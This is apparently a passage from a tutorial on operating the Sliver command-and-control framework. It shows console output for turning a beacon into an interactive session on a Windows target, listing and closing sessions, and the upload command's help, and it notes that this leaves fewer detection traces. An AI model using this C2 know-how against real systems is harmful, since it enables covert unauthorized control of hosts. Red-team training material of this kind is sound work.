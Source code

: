 ```bash
sliver (RICH_BRUSH) > interactive

[*] Using beacon's active C2 endpoint: mtls://SNIP:4040
[*] Tasked beacon RICH_BRUSH (75f51ba0)[*] Session 1f07c18c RICH_BRUSH - SNIP:30780 (DESKTOP-DUQ8TTD) - windows/amd64 - Fri, 03 Jan 2025 22:46:36 SASTsliver (RICH_BRUSH) > background[*] Background ...
```

a session has been created, now we check sessions as follow:

```bash
sliver > sessions

ID                Name       Hostname         Username   Operating System 
<SNIP>1f07c18c    RICH_BRUSH ESKTOP-DUQ8TTD   me         windows/amd64  <SNIP>
```

We interact with the session just like what we did with the beacon, enter the command, use <session ID>, we notice right away that RICH_BRUSH or your session/beacon name turned red, indicating us that we are in sessions mode. now we have a live shell, instant output response… enter close to end the session

```bash
sliver > use 1f07c18c
[*] Active session RICH_BRUSH (1f07c18c-aa49-42a6-9d8c-3a57050493eb)sliver (RICH_BRUSH) >

sliver (RICH_BRUSH) > close
[!] Lost session 1f07c18c RICH_BRUSH -  (DESKTOP-DUQ8TTD) - windows/amd64 - Fri, 03 Jan 2025 22:51:23 SAST[!] Active session disconnected
```

Do not worry, we close the session, not the beacon :)

now, we are on the system, before we can go into enumeration or stituation awaressness, there are few simple helpful commands to know.

one of the feature is that we can upload or download files from our endpoint to the target and vice-versa, now this is quite useful for your file transfer activities, no need to spwn a server and download it from there or again download something from the web directly to the target and leaving more tracing to be detected.

To upload or download, the syntax is simple as upload [local src] <remote dst>
we can check the help menu as follow,

```bash
sliver (http-session) > help upload

Command: upload [local src] <remote dst>
About: Upload a file to the remote system.

Usage:
======
  upload [flags] local-path [remote-path]

Args:
=====
  local-path   string    local path to the file to upload
  remote-path  string    path to the file or directory to upload to

Flags:
======
  -h, --help           display help
  -i, --ioc            track uploaded file as an ioc
  -t, --timeout int    command timeout in seconds (default: 60)
```
